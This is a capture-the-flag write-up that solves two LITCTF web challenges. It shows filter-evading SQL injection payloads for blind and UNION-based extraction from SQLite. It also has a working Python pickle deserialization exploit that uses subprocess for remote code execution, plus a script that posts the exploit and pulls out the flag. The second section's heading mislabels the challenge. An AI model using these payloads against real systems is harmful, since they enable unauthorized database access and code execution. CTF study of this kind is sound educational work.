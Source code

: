 #LITCTF
##Author: darkmode
##Category: WEB(6/7)

##Alex-fan-club
##Type: sqli

The interface of website 
![1](challAFC.png)
![2](interface.png)

```python
sqli = 1 in [c in param for c in "*-/ |%"]
```
- This challenge filters `*-/ |%`, it has vulnerable here because it only filters
space. We can use tab to replace space


###Solution

I try to use payload `'or(1)or'` and it work (return all result)

First my idea is blind sqli:)), and it is stupid (but it work xD)
```mysql
select * from achievements where achievement like '%'or(substr((SELECT(tbl_name)FROM(sqlite_master)),1,1)='a'or'%'
```
I use burp intruder to brute it, and i get 2 tables:
- `achievements`
- `flag_is_in_here`

But i don't know how to brute column in the table flag_is_in_here

I build the chall in the local and `DB browser` to query `select * from sqlite_master`
and It returns 1 column name `sql` which contains struct of all table.

I continues use burp intruder to brute and I get column `flag_column`
Brute it and we get flag.
`'or(substr((SELECT(flag_column)from(flag_is_in_here)),1,1)='a'or'`
###Solution 2
When i have solved this chall, i realise we can use tab to replace space

Payload look like:

`'union%09select(flag_column)from(flag_is_in_here)union%09select'`



##Alex-fan-club
##Type: pickle deserialization rce

![3](challpickle.png)
This chall use pickle to serialize object, when you create a bio it create a id with your bio

I have read a post write about pickle rce
https://davidhamann.de/2020/04/05/exploiting-python-pickle/

We take advantage from implementing `__reduce__` to get code execution 

I found a payload of pickle rce here:
https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd

This chall has filter os and open, so we can't use `os` library to execute

```python
	if pickle_str[:len(dict_prefix)] != dict_prefix or pickle_str[-len(dict_suffix):] != dict_suffix or b"flag" in pickle_str or b"os." in pickle_str or b"open" in pickle_str:
		return "uhoh"
```

i use payload above to create a pickle string, but i use subprocess instead

```python
class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, ("ls", )
		
payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))
```

In line 36, the pickle_str will be loads, and the endpoint `/new` will return result 
```python
obj = pickle.loads(pickle_str)
```
So send this payload above to `url/new`, we success to RCE

![1](1.png)

Finally code to get flag:
```python
import pickle,base64,requests,re

url = "https://a-flask-of-pickles.litctf.live/"

class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, (["cat","flaskofpickles.py"], )

payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))

#Post to endpoint /new
_id = requests.post(url + "new", data=payload)
#It'll return id
url_result = url + _id.text

#Get the result
print("[+] Query to url",url_result)
result = requests.get(url_result).text
print(result)
result = "flag{" + re.findall('flag{(.*?)}',result)[0] + "}"
print("[+] Get the result:",result)
```
![2](2.png)
